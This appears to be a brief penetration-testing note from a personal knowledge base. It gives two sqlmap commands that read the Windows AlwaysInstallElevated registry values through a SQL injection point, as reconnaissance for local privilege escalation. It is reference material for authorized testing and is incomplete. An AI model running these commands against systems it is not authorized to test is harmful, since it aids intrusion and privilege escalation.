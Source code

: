 # Windows

Search Tag(s): #sqlmap #enumeration-and-discovery #privilege-escalation

## Conditions

TODO: For schedule task

- Enumerate [[Tactics && Techniques && Procedures (TTPs) Phases/F - Post Exploitation/Shell Is The Beginning/03 - Privilege Escalation/Windows/Local Privilege Escalation/Registry/AlwaysInstallElevated/Manual|AlwaysInstallElevated]] for privilege escalation.

```
$ sqlmap -u "<URL>" --reg-read="HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer" --reg-value="AlwaysInstallElevated"

$ sqlmap -u "<URL>" --reg-read="HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer" --reg-value="AlwaysInstallElevated"
```